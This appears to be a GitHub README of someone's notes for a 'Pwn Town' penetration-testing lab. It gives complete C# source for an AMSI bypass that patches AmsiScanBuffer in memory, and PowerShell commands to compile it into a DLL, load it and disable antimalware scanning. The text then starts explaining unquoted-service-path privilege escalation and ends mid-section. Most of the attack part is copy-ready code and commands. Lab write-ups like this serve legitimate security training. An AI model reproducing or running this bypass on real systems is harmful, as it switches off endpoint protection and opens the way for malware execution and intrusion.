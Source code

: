 # Pwn-Town
Here are all of my notes for the Pwn Town lab!

Starting out
---
The first thing you want to do is get everything prepared. Some things I would to (to make your life easier) is:
* On your local computer, save the RDP configuration to make connecting easier
* Find the `pentest-tools` folder on the lab machine and pin that to quick access

Bypassing AMSI
---
The first major hurdle is bypassing AMSI, or Antimalware Scan Interface. After trying to run some of the powershell tools, you'll quickly notice they can't run because they "contain malware".

```diff
Import-Module .\PowerSploit.psd1
-This script contains malicious content and has been blocked by your antivirus software.
```

The way we can bypass this is a little weird (but works). We're going to compile a C file into a DLL, then load that into powershell. This part of bypassing AMSI was found on [this website](https://www.citadel.co.il/Home/Blog/1008) which took a long time to find!

If you want, you can just download the DLL from this repository and skip to where I load it into powershell.

### Creating the C file
For this, just open up notepad and copy this code ([source](https://www.citadel.co.il/Home/Blog/1008)):

```
using System;
using System.Runtime.InteropServices;

namespace BP
{
    public class AMS
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static void Disable()
        {
            IntPtr AMSDLL = LoadLibrary("amsi.dll");
            IntPtr AMSBPtr = GetProcAddress(AMSDLL, "Am" + "si" + "Scan" + "Buffer");
            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            VirtualProtect(AMSBPtr, dwSize, 0x40, out Zero);
            Byte[] Patch1 = { 0x31 };
            Byte[] Patch2 = { 0xff };
            Byte[] Patch3 = { 0x90 };
            IntPtr unmanagedPointer1 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch1, 0, unmanagedPointer1, 1);
            MoveMemory(AMSBPtr + 0x001b, unmanagedPointer1, 1);
            IntPtr unmanagedPointer2 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch2, 0, unmanagedPointer2, 1);
            MoveMemory(AMSBPtr + 0x001c, unmanagedPointer2, 1);
            IntPtr unmanagedPointer3 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch3, 0, unmanagedPointer3, 1);
            MoveMemory(AMSBPtr + 0x001d, unmanagedPointer3, 1);
            Console.WriteLine("Memory patched successfuly.");
        }
    }
}
```

Then, you can save this (maybe in a antivirus whitelisted folder>) as whatever you want, but I'm going to call it `AMSI.cs`.

### Compiling code into a DLL
Now, open up powershell change to the directory you saved the CS file in. Type this, replacing `<NAME>` with the name of the file you just created.

```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\<NAME>.cs")) -OutputAssembly "AMSI.dll"
```

This with create a file called AMSI.dll.

### Loading the DLL into powershell
Now you should have the DLL called `AMSI.dll`. We need to load this into powershell to get around AMSI.

To do this, type:
```
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\AMSI.dll"))
```

Then, the final step is to patch the memory:
```
[BP.AMS]::Disable()
```

Now you should be able to run whatever you want in powershell!

Getting Local Admin
---
The next thing you need is local admin. For this, we can exploit the unquoted service path.

### What is Unquoted Service Path?
The unquoted service path is a path to a file that is unquoted!

Look at this path: `C:\Users\Marty McFly\run.exe`

There is a space in between Marty and Mcfly, and that path is not quoted.
Windows will look for run.exe, but since the path isn't quoted, it goes through the path and looks for files to run. It will end up stopping at Marty (thinking there is a file at _C:\Users_. It will run any file named Marty, and if there is no file, it moves on. Luckily, Windows runs this file with the highest privligas. We can put a file in the unquoted service path to run a payload.
